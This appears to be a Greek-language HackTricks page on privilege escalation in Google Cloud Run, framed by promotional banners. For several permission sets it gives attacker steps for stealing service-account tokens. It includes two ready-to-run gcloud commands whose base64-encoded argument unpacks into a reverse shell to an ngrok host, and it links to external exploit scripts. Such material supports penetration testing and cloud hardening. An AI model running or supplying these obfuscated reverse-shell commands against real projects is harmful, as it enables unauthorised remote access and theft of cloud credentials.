 # GCP - Run Privesc

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Cloud Run

Για περισσότερες πληροφορίες σχετικά με το Cloud Run, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **δημιουργήσει ένα run service που εκτελεί αυθαίρετο κώδικα** (αυθαίρετο Docker container), να συνδέσει έναν λογαριασμό υπηρεσίας σε αυτόν και να κάνει τον κώδικα **να διαρρεύσει το διακριτικό του λογαριασμού υπηρεσίας από τα μεταδεδομένα**.

Ένα script εκμετάλλευσης για αυτήν τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) και η εικόνα Docker μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Σημειώστε ότι όταν χρησιμοποιείτε την εντολή `gcloud run deploy` αντί να δημιουργείτε απλώς την υπηρεσία, **χρειάζεται την άδεια `update`**. Ελέγξτε ένα [**παράδειγμα εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Όπως και η προηγούμενη, αλλά ενημερώνοντας μια υπηρεσία:

```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```

### `run.services.setIamPolicy`

Δώστε στον εαυτό σας τα προηγούμενα δικαιώματα πάνω στο Cloud Run.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Ξεκινήστε μια διαδικασία με ένα αντίστροφο κέλυφος για να κλέψετε τον λογαριασμό υπηρεσίας που αναφέρεται στην εντολή. Μπορείτε να βρείτε ένα [**εκμεταλλευτή εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Όμοια με το προηγούμενο, είναι δυνατόν να **ενημερώσετε μια διαδικασία και να ενημερώσετε τον λογαριασμό υπηρεσίας**, την **εντολή** και να την **εκτελέσετε**:

```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```

### `run.jobs.setIamPolicy`

Δώστε στον εαυτό σας τα προηγούμενα δικαιώματα για τα Cloud Jobs.

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
